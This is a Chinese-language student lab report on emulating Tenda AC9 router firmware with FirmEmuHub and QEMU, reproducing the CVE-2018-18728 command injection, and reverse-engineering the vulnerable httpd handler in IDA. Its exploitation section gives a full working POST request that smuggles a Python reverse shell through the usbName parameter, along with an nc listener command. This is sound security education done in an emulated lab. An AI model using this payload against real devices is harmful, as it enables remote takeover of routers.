# 实验四：用户态固件仿真实验报告

## 一、实验目的

- 掌握用户态固件仿真的基本原理和技术路线，理解在不依赖真实路由器硬件的情况下运行嵌入式固件服务的方法。
- 使用 FirmEmuHub 工具进行 Tenda AC9 固件的用户态仿真，完成固件文件系统准备、运行环境修复和 Web 服务访问验证。
- 复现 Tenda AC9 固件中的 CVE-2018-18728 命令注入漏洞，记录漏洞触发过程和利用结果。
- 使用 IDA Pro 或 Ghidra 对 `bin/httpd` 进行逆向分析，理解 `usbName` 参数进入 `doSystemCmd()` 后导致命令执行的原因。

## 二、实验环境

| 项目 | 配置 |
|------|------|
| 主机操作系统 | Windows |
| 虚拟化平台 | VirtualBox |
| 实验系统 | Ubuntu 24.04 LTS 64 位 |
| 虚拟机内存 | 4 GB |
| 虚拟机磁盘 | 30 GB |
| 固件仿真工具 | FirmEmuHub |
| 实验基准 | `Benchmark/BM-2024-00012` |
| 目标固件 | Tenda AC9 |
| 主要工具 | Git、Docker、Python 3、QEMU、binwalk、netcat、Yakit、IDA Pro |

### （一）网络环境

为满足依赖下载、Docker 镜像拉取和固件 Web 页面访问需求，虚拟机使用双网卡配置：

- `enp0s3`：NAT 网卡，用于访问互联网和下载依赖。
- `enp0s8`：桥接网卡，用于创建 `br0` 桥接接口，使主机能够访问仿真启动后的固件 Web 服务。

本实验中桥接接口 `br0` 最终获取到地址 `192.168.1.15/24`，后续手工启动固件 Web 服务时使用该地址访问页面。

## 三、实验原理与基础知识

### （一）用户态固件仿真原理

用户态固件仿真主要针对固件文件系统中的用户态程序进行运行和分析，不完整模拟整个硬件设备，而是借助 QEMU 用户态模拟器运行不同架构的可执行文件。例如，本实验中的 Tenda AC9 固件包含 ARM 架构的 `bin/httpd`，在 x86_64 Ubuntu 虚拟机中无法直接运行，需要通过 `qemu-arm-static` 提供 ARM 指令翻译能力。

与系统态固件仿真相比，用户态仿真启动速度较快，适合快速验证 Web 服务、CGI 接口和命令注入等漏洞。但它也需要手动修复文件系统路径、Web 资源目录、动态链接环境和网络配置。

### （二）FirmEmuHub 与 BM-2024-00012

FirmEmuHub 是用于固件仿真的开源工具，仓库中包含多个 benchmark。实验手册指定使用 `BM-2024-00012`，该基准对应 Tenda AC9 固件。该目录中包含固件文件、Docker 配置、运行脚本以及一键仿真所需的配置文件。

本实验同时进行了两类操作：

- 手工用户态仿真：进入解包后的 `squashfs-root`，复制 `qemu-arm-static`，修复 Web 目录后直接运行 `bin/httpd`。
- FirmEmuHub 一键仿真：执行 `emulation.py -b ./Benchmark/BM-2024-00012`，由脚本自动构建和启动仿真环境。

### （三）CVE-2018-18728 漏洞原理

CVE-2018-18728 是 Tenda AC9 固件中的命令注入漏洞，影响组件为固件 Web 服务程序 `bin/httpd`。漏洞触发接口为：

```text
/goform/SetSambaCfg
```

当 POST 请求中的 `action` 参数满足特定条件，例如 `action=del` 时，程序会读取用户可控的 `usbName` 参数，并将其拼接到系统命令执行函数 `doSystemCmd()` 中。如果 `usbName` 未经过严格过滤、转义或白名单校验，攻击者就可以插入命令分隔符 `;`，使后端执行额外命令。

本实验使用 Python 反向 Shell 命令作为 payload，通过 `usbName` 参数触发命令注入，并使用 `nc -lvnp 8888` 验证目标是否反连成功。

## 四、实验内容

### （一）用户态固件仿真环境搭建

#### 1. 克隆 FirmEmuHub 仓库

在 Ubuntu 虚拟机中克隆 FirmEmuHub，并进入项目目录：

```bash
git clone https://github.com/a101e-lab/FirmEmuHub.git
cd ~/FirmEmuHub
```

该仓库包含实验所需的 benchmark、固件样本、仿真脚本和 Docker 配置文件，是后续用户态仿真和一键仿真的基础。

#### 2. 创建 Python 虚拟环境

为避免依赖污染系统 Python 环境，在 FirmEmuHub 项目目录下创建并激活虚拟环境：

```bash
python3 -m venv venv
source venv/bin/activate
```

#### 3. 安装项目依赖

由于实验过程中直接访问默认 PyPI 源时出现网络连接和域名解析不稳定问题，因此使用清华大学 PyPI 镜像源安装依赖：

```bash
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple --trusted-host pypi.tuna.tsinghua.edu.cn
```



截图显示 Python 依赖安装过程已经执行。依赖安装完成后，FirmEmuHub 的一键仿真脚本可以正常调用所需 Python 库。

### （二）本地构建用户态仿真实验环境：Tenda AC9

#### 1. 检查固件文件系统

实验手册要求在 `Benchmark/BM-2024-00012` 中找到 Tenda AC9 固件并使用 binwalk 处理。实际检查发现，该 benchmark 的 `emulation/firmware/tenda_ac9.zip` 中已经提供了解包后的文件系统内容，解压后可直接得到 `squashfs-root` 目录。因此，后续实验直接基于该目录进行用户态仿真环境搭建。

#### 2. 安装 QEMU 与网络配置工具

Ubuntu 24.04 LTS 中不再适合直接安装旧式 `qemu` 总包，因此按功能安装 QEMU 用户态模拟器、系统模拟器和桥接网络工具：

```bash
sudo apt update
sudo apt install -y qemu-user-static qemu-system bridge-utils uml-utilities ifupdown
```



截图显示系统正在安装 QEMU 和桥接网络相关组件。`qemu-user-static` 用于运行 ARM 架构固件程序，`bridge-utils`、`uml-utilities` 和 `ifupdown` 用于配置后续桥接网络。



截图表明 QEMU 相关组件已安装完成，为后续复制 `qemu-arm-static` 并启动 `bin/httpd` 提供了运行条件。

#### 3. 配置桥接网络

首先查看虚拟机网卡信息：

```bash
ip a
```

根据输出可知，虚拟机中主要存在 `enp0s3` 和 `enp0s8` 两个网络接口。其中，`enp0s3` 对应 NAT 网卡，`enp0s8` 对应桥接网卡。

按照实验手册要求，编辑 `/etc/network/interfaces`：

```bash
sudo nano /etc/network/interfaces
```

在 `nano` 中写入如下内容：

```text
auto lo
iface lo inet loopback

auto enp0s8
iface enp0s8 inet dhcp

auto br0
iface br0 inet dhcp
bridge_ports enp0s8
bridge_maxwait 0
```

配置内容包括 `lo`、`enp0s8` 和 `br0`，其中 `br0` 通过 `bridge_ports enp0s8` 接入桥接网卡。`enp0s8` 需要根据实际桥接网卡名称填写，如果本机网卡名称不同，应以 `ip a` 的输出为准。



截图展示了 `/etc/network/interfaces` 的桥接配置。该配置用于创建 `br0` 接口，并将 `enp0s8` 加入桥接网络。

随后编辑 `/etc/qemu-ifup`：

```bash
sudo nano /etc/qemu-ifup
```

在 `nano` 中写入如下内容：

```sh
#! /bin/sh
echo "Executing /etc/qemu-ifup"
echo "Bringing up $1 bridged mode..."
sudo /sbin/ifconfig $1 0.0.0.0 promisc up
echo "Adding $1 to br0..."
sudo /sbin/brctl addif br0 $1
sleep 3
```



该脚本负责在 QEMU 启动网络接口时，将对应接口设置为混杂模式并加入 `br0`。配置完成后为脚本添加可执行权限：

```bash
sudo chmod a+x /etc/qemu-ifup
ls -l /etc/qemu-ifup
```



截图中 `/etc/qemu-ifup` 文件权限包含 `x`，说明脚本已经具备可执行权限，QEMU 后续可以调用该脚本完成桥接接口配置。

启动桥接接口并重启网络服务：

```bash
sudo ifup br0
sudo systemctl restart systemd-networkd.service
```



截图显示桥接接口启动命令已经执行，为后续检查 `br0` 状态和访问固件 Web 服务做准备。

最后检查网络配置是否生效：

```bash
ip a
ip route
brctl show
```



截图显示系统已经创建 `br0` 接口，且接口状态为 `UP`，并获取到 IPv4 地址 `192.168.1.15/24`。



截图显示 `enp0s8` 已成功加入 `br0` 桥接接口，说明桥接网络配置符合实验手册要求。至此，主机访问固件 Web 服务的网络基础已经完成。

#### 4. 手工启动路由器 Web 服务

进入 Tenda AC9 固件解包后的根文件系统目录：

```bash
cd ~/FirmEmuHub/Benchmark/BM-2024-00012/emulation/firmware/tenda_ac9_unzip/squashfs-root
pwd
ls
```



截图显示当前已经进入固件根文件系统目录，目录中包含 `bin`、`lib`、`webroot` 等固件运行所需内容。

将 QEMU ARM 静态解释器复制到当前目录中：

```bash
sudo cp /usr/bin/qemu-arm-static qemu-arm-static
ls -l qemu-arm-static
```

修复 Web 资源目录，并赋予 `bin/httpd` 执行权限：

```bash
cp -r webroot_ro/* webroot/
chmod +x bin/httpd
ls -l bin/httpd
```

随后使用 QEMU 用户态方式启动路由器 Web 服务：

```bash
sudo ./qemu-arm-static -L ./ bin/httpd
```



截图中可以看到 `httpd listen ip = 192.168.1.15 port = 80` 和 `webs: Listening for HTTP requests at address 192.168.1.15`，说明 Tenda AC9 的 Web 服务已经在桥接地址上启动。

在浏览器中访问：

```text
http://192.168.1.15/
```



截图显示浏览器成功打开 Tenda 路由器 Web 管理页面，说明手工用户态仿真启动成功。

### （三）一键固件仿真

除手工启动外，继续按照实验手册要求使用 FirmEmuHub 提供的一键仿真脚本启动 Tenda AC9 固件：

```bash
sudo ./venv/bin/python3 emulation.py -b ./Benchmark/BM-2024-00012
```



截图显示 FirmEmuHub 已经启动 Tenda AC9 固件仿真环境，并将 Web 服务映射到本机端口 `32768`。Docker 自动端口映射可能随运行环境变化而变化，实际访问时应以终端输出端口为准。

在 Ubuntu 虚拟机浏览器中访问：

```text
http://127.0.0.1:32768/main.html
```



截图显示 Tenda WiFi Web 管理界面成功打开，说明一键固件仿真启动成功。

### （四）漏洞复现

#### 1. 漏洞目标与触发接口

本次复现的 CVE-2018-18728 是命令注入漏洞，影响文件为固件中的 `bin/httpd`，漏洞接口为：

```text
/goform/SetSambaCfg
```

本实验一键仿真后的目标服务地址为：

```text
http://127.0.0.1:32768
```

#### 2. 使用 netcat 监听反向连接

在发送漏洞请求前，新建终端并监听 8888 端口：

```bash
nc -lvnp 8888
```

该监听端口用于接收由目标固件容器执行 payload 后发起的反向 Shell 连接。

#### 3. 使用 Yakit 构造并发送请求

在 Yakit 的 Web Fuzzer 中构造如下 POST 请求：

```http
POST /goform/SetSambaCfg HTTP/1.1
Host: 127.0.0.1:32768
Cookie: password=lqetgb
Content-Type: application/x-www-form-urlencoded
Connection: close

password=111111&premitEn=0&internetPort=21&action=del&usbName=;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';&guestpwd=guest&guestuser=guest&guestaccess=r&fileCode=UTF-8
```

其中，`action=del` 用于满足漏洞触发条件；`usbName` 参数以分号 `;` 开始拼接额外命令，使后端执行原有命令时同时执行 Python 反向连接命令。`172.17.0.1` 是 Docker 容器访问宿主机的地址，`8888` 是前面 `nc` 监听的端口。



截图显示 Yakit 中已经构造并发送针对 `/goform/SetSambaCfg` 的 POST 请求，请求体中包含用于反向连接的 Python 命令。

#### 4. 漏洞复现结果

发送请求后，Yakit 侧可能显示请求超时或服务端异常，但 netcat 监听窗口成功收到来自 Docker 容器的连接：



截图显示 `nc` 成功接收到反向连接，说明目标固件容器执行了 `usbName` 参数中注入的 Python 命令。该结果验证了 CVE-2018-18728 命令注入漏洞可以被利用，并能够获得目标环境的交互式 shell。

### （五）漏洞逆向分析

#### 1. 使用 IDA 加载 httpd 文件

进入固件解包后的 `bin` 目录，查看 `httpd` 文件信息：

```bash
cd ~/FirmEmuHub/Benchmark/BM-2024-00012/emulation/firmware/tenda_ac9_unzip/squashfs-root/bin
ls -l httpd
file httpd
```

实验中识别结果显示，`httpd` 是 32 位 ARM 架构 ELF 可执行文件，动态链接到 `/lib/ld-uClibc.so.0`，并且已经 stripped，符号信息不完整。因此需要结合字符串搜索、交叉引用和伪代码进行定位。

#### 2. 通过关键字符串定位函数

在 IDA 中加载 `httpd` 后，按 `Shift + F12` 打开 Strings 窗口，搜索与 Samba 配置接口相关的字符串。



截图中可以看到 `action`、`usbName`、`guestpwd`、`guestuser` 等字符串，这些参数与漏洞复现请求中的 POST 参数一致。根据交叉引用可定位到关键函数 `formSetSambaConf`。

#### 3. 分析 formSetSambaConf 函数

IDA 反编译后可观察到如下关键逻辑：

```c
s1 = (char *)sub_2B9D4(a1, "action", &unk_F0400);
v9 = (const char *)sub_2B9D4(a1, "usbName", &unk_F0400);
v8 = sub_2B9D4(a1, "guestpwd", &unk_F0400);
v7 = sub_2B9D4(a1, "guestuser", &unk_F0400);
v6 = sub_2B9D4(a1, "guestaccess", &unk_F0400);
v5 = sub_2B9D4(a1, "fileCode", &unk_F0400);
if ( !strcmp(s1, "del") )
{
    doSystemCmd("cfm post netctrl %d?op=%d,string_info=%s", 51, 3, v9);
    sub_2C354(a1, "HTTP/1.0 200 OK\r\n\r\n");
    sub_2C354(a1, "{\"errCode\":\"0\"}");
    return sub_2C89C(a1, 200);
}
```



截图显示 `usbName` 参数被读取到变量 `v9` 后，在 `action` 等于 `"del"` 时直接作为 `%s` 传入 `doSystemCmd()`。由于 `usbName` 完全来自 HTTP 请求，如果缺少过滤，攻击者就可以通过 `;python -c ...` 拼接额外命令。

#### 4. 漏洞成因总结

该漏洞的核心问题是用户输入进入系统命令执行函数前没有进行充分过滤。`formSetSambaConf` 从请求中读取 `usbName`，并在删除 Samba 配置时将其传入 `doSystemCmd()`。当 `usbName` 被构造为：

```text
;python -c '...'
```

命令分隔符 `;` 会使后续 Python 反向 Shell 命令被 shell 解释执行。实验中 netcat 成功接收连接，说明该漏洞具备实际命令执行效果。

## 五、实验问题

### （一）Python 依赖安装网络不稳定

安装 FirmEmuHub 的 Python 依赖时，执行 `pip install -r requirements.txt` 默认从 PyPI 官方源下载，实验环境中可能出现连接超时、域名解析失败或下载速度过慢等问题，导致依赖无法完整安装，影响后续运行 `emulation.py`。

原因是实验网络访问默认 PyPI 源的稳定性不足，且部分依赖包体积较大，下载过程中容易中断。

解决方法是将 PyPI 源切换为清华大学镜像源，并添加 `--trusted-host` 参数：

```bash
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple --trusted-host pypi.tuna.tsinghua.edu.cn
```

更换镜像源后，依赖下载速度明显提升，安装过程正常完成。

### （二）Ubuntu 24.04 中 QEMU 包名与手册不完全一致

实验手册中给出的安装命令为 `sudo apt-get install qemu`，但在 Ubuntu 24.04 LTS 中，直接安装 `qemu` 总包可能不可用，无法完整提供用户态仿真与网络桥接所需组件。

原因是不同 Ubuntu 版本的软件包拆分方式存在差异。用户态固件仿真不仅需要 `qemu` 命令本身，还需要 ARM 用户态模拟器、系统模拟器以及桥接网络工具。按旧版本包名安装可能导致命令缺失或网络配置工具不可用。

解决方法为按功能安装具体组件：

```bash
sudo apt update
sudo apt install -y qemu-user-static qemu-system bridge-utils uml-utilities ifupdown
```

安装完成后，系统中可以使用 `qemu-arm-static`，并能够配置 `/etc/qemu-ifup` 与 `br0` 桥接接口，满足手工启动 Tenda AC9 Web 服务的要求。

### （三）固件 Web 资源目录需要手动修复

即使 `bin/httpd` 能够成功启动，如果 Web 页面资源目录不完整，浏览器访问时仍可能出现页面加载异常、静态资源缺失或管理页面无法正常显示的问题。

原因是 Tenda AC9 固件中部分 Web 页面资源位于 `webroot_ro` 目录，而 `httpd` 运行时主要从 `webroot` 目录加载页面资源。若不将 `webroot_ro` 中的内容复制到 `webroot`，Web 服务虽然监听端口，但页面资源无法正确加载。

解决方法是在 `squashfs-root` 目录下执行：

```bash
cp -r webroot_ro/* webroot/
chmod +x bin/httpd
sudo ./qemu-arm-static -L ./ bin/httpd
```

修复后启动 `httpd`，终端显示 `webs: Listening for HTTP requests at address 192.168.1.15`，浏览器可以正常打开 Tenda Web 管理页面。


## 六、实验总结

本次实验围绕 Tenda AC9 固件完成了用户态固件仿真、Web 服务访问、CVE-2018-18728 漏洞复现和逆向分析。实验中首先在 Ubuntu 虚拟机中配置 FirmEmuHub、QEMU 和桥接网络，然后通过手工方式启动 `bin/httpd` 并访问 Tenda Web 管理界面；随后使用 FirmEmuHub 一键仿真脚本启动 Tenda AC9 固件，并通过本地端口访问 Web 页面。

漏洞复现阶段，通过 Yakit 向 `/goform/SetSambaCfg` 发送构造后的 POST 请求，在 `usbName` 参数中注入 Python 反向 Shell 命令，最终由 netcat 成功接收到来自固件容器的连接，验证了命令注入漏洞的可利用性。逆向分析阶段，通过 IDA 搜索关键字符串并定位 `formSetSambaConf` 函数，确认 `usbName` 在 `action=del` 分支中被直接传入 `doSystemCmd()`，从代码层面解释了漏洞产生原因。

通过本次实验，我掌握了用户态固件仿真的基本流程，也加深了对 IoT 设备 Web 接口命令注入漏洞成因、利用方式和逆向定位方法的理解。

## 参考资料

1. 《用户态固件仿真实验手册》0x04，课程实验资料，2026-04-22。
2. FirmEmuHub 项目仓库：https://github.com/a101e-lab/FirmEmuHub
3. binwalk 项目仓库：https://github.com/ReFirmLabs/binwalk
4. NVD：CVE-2018-18728：https://nvd.nist.gov/vuln/detail/CVE-2018-18728
5. CVE-2018-18728 公开漏洞分析与 PoC：https://github.com/ZIllR0/Routers/blob/master/Tenda/rce1.md
6. QEMU 官方文档：https://www.qemu.org/docs/master/
